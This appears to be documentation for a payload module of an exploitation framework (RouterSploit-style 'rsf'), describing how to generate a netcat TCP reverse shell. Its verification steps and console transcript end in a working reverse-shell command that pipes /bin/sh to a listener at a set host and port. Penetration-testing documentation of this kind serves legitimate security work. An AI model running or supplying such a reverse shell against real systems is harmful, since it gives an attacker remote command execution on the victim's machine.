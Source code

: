 ## Description

Module generates payload that creates interactive tcp reverse shell by using netcat one-liner. 

## Verification Steps

  1. Start `./rsf.py`
  2. Do: `use payloads/cmd/netcat_reverse_tcp`
  3. Do: `set lhost 192.168.1.4`
  4. Do: `set lport 4321`
  5. Do: `run`
  6. Module generates netcat tcp reverse shell payload

## Scenarios

```
rsf > use payloads/cmd/netcat_reverse_tcp
rsf (Netcat Reverse TCP) > set lhost 192.168.1.4
[+] lhost => 192.168.1.4
rsf (Netcat Reverse TCP) > set lport 4321
[+] lport => 4321
rsf (Netcat Reverse TCP) > run
[*] Running module...
[*] Generating payload
nc 192.168.1.4 4321 -e /bin/sh
```

